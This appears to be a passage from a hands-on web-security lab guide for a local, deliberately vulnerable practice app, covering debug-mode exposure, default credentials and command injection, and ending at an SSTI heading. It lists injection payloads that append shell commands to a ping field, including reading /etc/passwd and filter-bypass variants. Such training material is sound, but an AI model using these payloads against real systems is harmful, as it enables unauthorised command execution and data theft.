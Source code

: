 
### Security Misconfiguration Lab

**Lab URL:** `http://localhost:5000/api/vuln/misconfig`

**Objective:** Identify and exploit security misconfigurations.

#### Step 1: Debug Information Exposure
1. **Enable debug mode:**
   ```
   GET /api/vuln/misconfig?debug=true HTTP/1.1
   GET /api/vuln/misconfig?debug=1 HTTP/1.1
   ```
2. **Screenshot Location:** Save debug information exposure

#### Step 2: Default Credentials
1. **Test default administrative credentials**
2. **Burp Action:** Document weak password policies
3. **Screenshot Location:** Save successful default credential access

---

### Command Injection Lab

**Lab URL:** `http://localhost:5000/api/vuln/command`

**Objective:** Exploit command injection vulnerabilities for remote code execution.

#### Step 1: Basic Command Injection
1. **Test command injection in ping utility:**
   ```
   POST /api/vuln/command HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   
   ping=127.0.0.1; ls -la
   ```
2. **Burp Action:** Test various command separators (;, &&, ||, |)
3. **Screenshot Location:** Save command execution results

#### Step 2: Filter Bypass
1. **Test bypass techniques:**
   ```
   ping=127.0.0.1$(cat /etc/passwd)
   ping=127.0.0.1`whoami`
   ping=127.0.0.1%0Als%20-la
   ```
2. **Screenshot Location:** Save successful bypass attempts

---

## Intermediate Labs

### Server-Side Template Injection (SSTI) Lab
